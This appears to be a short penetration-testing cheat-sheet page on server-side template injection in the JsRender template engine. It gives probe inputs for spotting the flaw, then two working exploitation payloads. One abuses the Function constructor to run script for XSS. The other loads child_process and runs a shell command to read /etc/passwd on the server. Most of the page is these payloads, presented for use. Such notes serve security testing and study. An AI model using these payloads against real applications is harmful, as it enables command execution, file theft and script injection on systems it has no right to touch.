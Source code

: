 ```yaml
---
title: JsRender Template Injection
description: JsRender is a light-weight but powerful template engine. It is vulnerable to template injection.
tags:
    - SSTI
    - Web
refs:
    - https://appcheck-ng.com/template-injection-jsrender-jsviews
date: 2023-03-26
draft: false
---
```


## Investigation

Try to insert arbitrary code into double curly brackets. If the result of the code is reflected in the page, we can inject malicious code in the template.

```bash
{{:2*3}}
{{:"test".toString}}
```

<br />

## Exploitation

```bash
# XSS
{{:"test".toString.constructor.call({},"alert(1)")}}
# Read local files
{{:"test".toString.constructor.call({},"return global.process.mainModule.constructor._load('child_process').execSync('cat /etc/passwd').toString()")()}}
```
